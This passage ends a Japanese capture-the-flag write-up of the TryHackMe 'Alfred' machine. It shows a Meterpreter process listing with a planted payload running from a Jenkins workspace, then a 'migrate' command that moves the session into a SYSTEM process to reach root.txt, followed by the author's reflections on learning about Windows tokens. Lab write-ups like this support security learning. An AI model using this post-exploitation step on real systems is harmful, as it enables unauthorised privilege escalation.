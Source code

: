 ```
 1336  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1408  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1444  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1472  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1644  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1740  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1832  1644  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1884  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1908  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2244  872   sheshe.exe            x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\sheshe.exe
 2528  1832  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2620  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2928  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2964  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3056  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe

meterpreter > migrate 668
[*] Migrating from 2244 to 668...
[*] Migration completed successfully.

```

プロセスの乗り移りに成功しました。
これで root.txt を取得できます。

## 終わりに
今回の machine は今まで知らなかった Windows の token とはなんぞやみたいな部分などかなり勉強になる machine でした。
TryHackMe は丁寧な誘導があるのでこう言ったわけわからん machine でも挑戦するハードルが低いところがいい点ですね。

 
